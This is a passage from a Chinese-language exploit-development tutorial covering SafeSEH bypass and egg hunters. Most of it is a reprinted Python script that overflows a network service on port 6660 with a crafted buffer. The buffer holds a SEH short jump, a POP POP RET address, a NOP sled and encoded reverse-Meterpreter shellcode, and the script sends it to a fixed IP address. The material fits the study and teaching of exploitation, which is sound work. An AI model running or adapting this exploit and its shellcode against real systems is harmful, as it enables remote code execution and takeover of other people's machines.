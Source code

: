 2.  我们已经知道崩溃字节和绕过 SAFESEH 的地址。
3.  现在我们需要添加鸡蛋猎人，然后使用它跳转到外壳代码。
4.  正如我们所知，鸡蛋猎人是一个外壳代码，使用外壳代码的基本规则是确保它没有任何坏字符。
5.  让我们看一下我们之前的利用：

```
        #!/usr/bin/python
        import socket
        target_address="192.168.110.12"
        target_port=6660
        buffer = "USV "
        buffer += "\x41" * 962 #offset
        # 6 Bytes SHORT jump to shellcode
        buffer += "\xeb\x06\x90\x90"
        # POP+POP+RET 0x0f9a196a
        buffer += "\x6a\x19\x9a\x0f"
        buffer += "\x90" * 16
        #Shellcode Reverse meterpreter.
        buffer += "\xdb\xde\xd9\x74\x24\xf4\xbf\xcf\x9f\xb1\x9a\x5e"
        buffer += "\x31\xc9\xb1\x54\x83\xee\xfc\x31\x7e\x14\x03\x7e"
        buffer += "\xdb\x7d\x44\x66\x0b\x03\xa7\x97\xcb\x64\x21\x72" 
        buffer += "\xfa\xa4\x55\xf6\xac\x14\x1d\x5a\x40\xde\x73\x4f"
        buffer += "\xd3\x92\x5b\x60\x54\x18\xba\x4f\x65\x31\xfe\xce"
        buffer += "\xe5\x48\xd3\x30\xd4\x82\x26\x30\x11\xfe\xcb\x60"
        buffer += "\xca\x74\x79\x95\x7f\xc0\x42\x1e\x33\xc4\xc2\xc3"
        buffer += "\x83\xe7\xe3\x55\x98\xb1\x23\x57\x4d\xca\x6d\x4f"
        buffer += "\x92\xf7\x24\xe4\x60\x83\xb6\x2c\xb9\x6c\x14\x11"
        buffer += "\x76\x9f\x64\x55\xb0\x40\x13\xaf\xc3\xfd\x24\x74"
        buffer += "\xbe\xd9\xa1\x6f\x18\xa9\x12\x54\x99\x7e\xc4\x1f"
        buffer += "\x95\xcb\x82\x78\xb9\xca\x47\xf3\xc5\x47\x66\xd4"
        buffer += "\x4c\x13\x4d\xf0\x15\xc7\xec\xa1\xf3\xa6\x11\xb1" 
        buffer += "\x5c\x16\xb4\xb9\x70\x43\xc5\xe3\x1c\xa0\xe4\x1b"
        buffer += "\xdc\xae\x7f\x6f\xee\x71\xd4\xe7\x42\xf9\xf2\xf0"
        buffer += "\xa5\xd0\x43\x6e\x58\xdb\xb3\xa6\x9e\x8f\xe3\xd0"
        buffer += "\x37\xb0\x6f\x21\xb8\x65\x05\x24\x2e\x46\x72\x48"
        buffer += "\xa5\x2e\x81\x95\xa8\xf2\x0c\x73\x9a\x5a\x5f\x2c"
        buffer += "\x5a\x0b\x1f\x9c\x32\x41\x90\xc3\x22\x6a\x7a\x6c"
        buffer += "\xc8\x85\xd3\xc4\x64\x3f\x7e\x9e\x15\xc0\x54\xda"
        buffer += "\x15\x4a\x5d\x1a\xdb\xbb\x14\x08\x0b\xda\xd6\xd0"
        buffer += "\xcb\x77\xd7\xba\xcf\xd1\x80\x52\xcd\x04\xe6\xfc"
        buffer += "\x2e\x63\x74\xfa\xd0\xf2\x4d\x70\xe6\x60\xf2\xee"
        buffer += "\x06\x65\xf2\xee\x50\xef\xf2\x86\x04\x4b\xa1\xb3"
        buffer += "\x4b\x46\xd5\x6f\xd9\x69\x8c\xdc\x4a\x02\x32\x3a"
        buffer += "\xbc\x8d\xcd\x69\xbf\xca\x32\xef\x9d\x72\x5b\x0f"
        buffer += "\xa1\x82\x9b\x65\x21\xd3\xf3\x72\x0e\xdc\x33\x7a"
        buffer += "\x85\xb5\x5b\xf1\x4b\x77\xfd\x06\x46\xd9\xa3\x07"
        buffer += "\x64\xc2\xb2\x89\x8b\xf5\xba\x6b\xb0\x23\x83\x19"
        buffer += "\xf1\xf7\xb0\x12\x48\x55\x90\xb8\xb2\xc9\xe2\xe8"
        # NOP SLED
        buffer += "\x90" * (2504 - len(buffer))
        buffer += "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((target_address,target_port))
        sock.send(buffer)
        print "Sent!!"
        sock.close()
```
